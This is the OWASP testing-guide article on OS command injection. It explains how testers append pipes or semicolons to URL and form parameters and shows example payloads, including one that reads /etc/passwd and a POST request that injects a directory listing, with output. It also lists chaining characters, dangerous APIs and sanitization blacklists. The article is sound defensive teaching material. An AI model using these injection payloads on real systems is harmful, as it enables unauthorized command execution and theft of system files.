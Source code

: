 # Testing for Command Injection

|ID          |
|------------|
|WSTG-INPV-12|

## Summary

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

## How to Test

When viewing a file in a web application, the filename is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol `|` onto the end of the filename.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

This will execute the command `/bin/ls`.

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is URL encoded and decodes to semicolon

Example:

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Example

Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up a personal proxy (such as ZAP or Burp Suite), you can obtain a POST HTTP like the following (`http://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following (`http://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn't validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`

- `cmd1|cmd2` : Uses of `|` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1;cmd2` : Uses of `;` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1||cmd2` : Command 2 will only be executed if command 1 execution fails.
- `cmd1&&cmd2` : Command 2 will only be executed if command 1 execution succeeds.
- `$(cmd)` : For example, `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `cmd` : It's used to execute specific command. For example, `whoami`
- `>(cmd)`: `>(ls)`
- `<(cmd)`: `<(ls)`

## Code Review Dangerous API

Be aware of the uses of following API as it may introduce the command injection risks.

### Java

- `Runtime.exec()`

### C/C++

- `system`
- `exec`
- `ShellExecute`

### Python

- `exec`
- `eval`
- `os.system`
- `os.popen`
- `subprocess.popen`
- `subprocess.call`

### PHP

- `system`
- `shell_exec`
- `exec`
- `proc_open`
- `eval`

### Remediation

#### Sanitization

The URL and form data needs to be sanitized for invalid characters. A blacklist of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A whitelist containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

General blacklist to be included for command injection can be `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Escape or filter special characters for windows,   `(` `)` `<` `>` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `”` `%` `@` `/` `\` `:` `+` `,`  ``` ` ```
Escape or filter special characters for Linux, `{` `}` `(` `)` `>` `<` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `”` `%`  `/` `\` `:` `+` `,` ``` ` ```

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all this information to test from a gray-box testing point of view.

## Tools

- OWASP [WebGoat](https://owasp.org/www-project-webgoat/)
- [Commix](https://github.com/commixproject/commix)

## References

- [Penetration Testing for Web Applications (Part Two)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
- [OS Commanding](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
- [ENV33-C. Do not call system()](https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132)

